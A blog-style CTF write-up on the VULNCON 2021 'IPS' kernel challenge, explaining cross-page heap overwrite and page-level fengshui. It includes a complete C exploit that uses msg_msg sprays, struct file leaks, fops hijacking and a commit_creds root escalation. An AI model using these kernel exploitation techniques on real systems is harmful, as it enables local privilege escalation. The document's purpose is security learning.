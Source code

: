 ```yaml
---
title: "Learn Kernel Heap Cross Page Overwrite and Page Level Fengshui from a CTF challenge: IPS(VULNCON 2021)"
date: 2024-02-29 20:42:29
tags: 
layout: default
---
```


# 0xFF tl;dr

I learned this skill from this [article][1]. This article is shitty since I wrote three write-ups for the same challenge. I just document what's new so it's not for other readers. I recommend you to read Kyle's original [post][1]. Thanks @Kyle for the write-up!

# 0x00 Challenge

The attachment is available [here][5].

I analyzed the challenge and introduced related skills in this [article][2]. In that article, I used `msg_msg` to walk through different slabs and leak the target slab address then use arbitrary free to over write the function pointers. However, that method is kind of verbose. If we know some kernel heap fengshui, things gonna be much easier.

# 0x01 Exploitation


In this challenge we have UAF for kmalloc-128 and want to attack the objects on another slab, for example kmalloc-256. If we have a kmalloc-256 page just after kmalloc-128 page, we can free a fake chunk at the end of kmalloc-128 page and overwrite the first object on kmalloc-256, which is a very juicy pattern for exploitation. However, how can we make it happen? 

There are more comprehensive analysis of page level fengshui in this [article][3]. But to make life easier, I only introduce the facts we need in this challenge.

- When we run out of objects of curren slab, slab will use budysystem to allocate new pages
- When we run out of pages for one specific order, budysystem gonna borrow connected pages from higher order and split them to lower order.


Based on the two facts listed, we can do following steps to create such a patter that a kmalloc-128 page is next to a kmalloc-256 page.

- Drain 0x80 slab so slab allocator has to borrow from budysystem and budyststem has to borrow from higher order
- Allocte the vulnerable 0x80 object.
- Likly, the next page (of the page where vulnerable obejct locates) is still in budystsystem
- Drain 0x100 slab to get the next page.
- Arbitrary Free the fake chunk at the end of the page before the vulnerable page
- Refill and overflow


# 0x02 Leak & Attack

If we want to make leaking and attacking easier, we'd better select some obejcts including a pointer points to the same page where it is and some kernel text pointers so we can leak kernel text. Moreover, it should also include function pointers or a pointer to function pointer table so we can hijack RIP. 

Considering the requirements above, `struct file` is a good candidate.

We can leak kernel.text and current page's addresses if we can leak its content. Also, we can ovewrite the `fop` pointer to hijack RIP. 


# 0x03 Exploitation Script

```python
// https://github.com/n132/libx/tree/main
#include "libx.h"
#if defined(LIBX)
    size_t user_cs, user_ss, user_rflags, user_sp;
    void saveStatus()
    {
        __asm__("mov user_cs, cs;"
                "mov user_ss, ss;"
                "mov user_sp, rsp;"
                "pushf;"
                "pop user_rflags;"
                );
        printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
    }
    size_t back2root = shell;
    void back2userImp(){
        __asm__("mov rax, user_ss;"
            "push rax;"
            "mov rax, user_sp;"
            "push rax;"
            "mov rax, user_rflags;"
            "push rax;"
            "mov rax, user_cs;"
            "push rax;"
            "mov rax, back2root;"
            "push rax;"
            "swapgs;"
            "push 0;"
            "popfq;"
            "iretq;"
            );
    }
    void libxInit(){
        back2user = back2userImp;
        hook_segfault();
        saveStatus();
    }
#endif // 
#define ISP 548
typedef struct {
  int idx;
  unsigned short priority;
  char *data;} dt;
void add(char *buf, int priority){
    dt dt;
    dt.priority = priority;
    dt.data = buf;
    return syscall(ISP,1,&dt);
}
void del(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,2,&dt);
}
void edit(int idx, char *buf){
    dt dt;
    dt.idx = idx;
    dt.data = buf;
    return syscall(ISP,3,&dt);

}
void copy(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,4,&dt);
}
int main()
{   
    libxInit();
    // Drain 0x80
    msgSpray(0x50,0x10000/0x80,"Spray");
    add("0",0);
    // Drain 0x100
    int fds[0x200] = {0};
    for(int i = 0 ; i< 0x200 ; i++)
        fds[i] = open("/etc/passwd",0);
    
    for(int i = 1 ; i< 0x10; i++)
        add(str(i),i);
    copy(0);
    int msgid = msgGet();
    del(0);
    //Refill
    msgSend(msgid,"A",0x50);
    edit(-1,dpn('\xff',14,18));
    int msgid2 = msgGet();
    msgMsg* msg = msgRecv(msgid,0x1000);
    msgSend(msgid2,"B",0x50); // refill
    size_t * ptr  = msg->mtext;
    size_t faker = 0;
    size_t kernel = 0;
    for(int i = 3 ; i < 0x200-1 ; i++){
        // info(ptr[i]);

        if(0x000a801d00008000 == ptr[i]){
            kernel = ptr[i-3];
            faker = ptr[i+3] - 0x58-0x50;
            break;
        }        
    }
    if(!kernel || !faker)
        panic("Failed to Leak");
    info(kernel);
    info(faker);
    edit(-1,strcat(dpn('\xff',18,18+8),p64(faker)));
    msgid =  msgGet();
    
    size_t * fake_op = 0xdeadbeef000;
    char *pay = strcat(dpn('\xff',0xfd0+0x70,0xfd0+0x78),p64(fake_op+0x10));


    msgRecv(msgid2,1);
    msgSend(msgid,pay,0xfd0+0x78);
    
    mmapx(fake_op,0x1000);

    commit_creds = kernel - (0xffffffff82029500 - 0xffffffff8108a830);
    prepare_kernel_cred = kernel - ( 0xffffffff82029500 - 0xffffffff8108aad0);
    for(int i = 0 ; i < 0x200;i++)
        fake_op[i] = getRootPrivilige;

    debug();
    for(int i = 0 ; i<0x200; i ++)
        close(fds[i]);
}
```

# 0x04 Epilogue

Learned a new technique for kernel heap. 

Btw, struct file is so good. 
Cross Page Overwrite is also amazing!
Not sure if this heap fengshui skill is generic. I'll update if I got the answer.


[1]: https://blog.kylebot.net/2022/01/10/VULNCON-2021-IPS/#Exploitation
[2]: https://n132.github.io/2024/02/09/IPS.html
[3]: https://etenal.me/archives/1825
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips
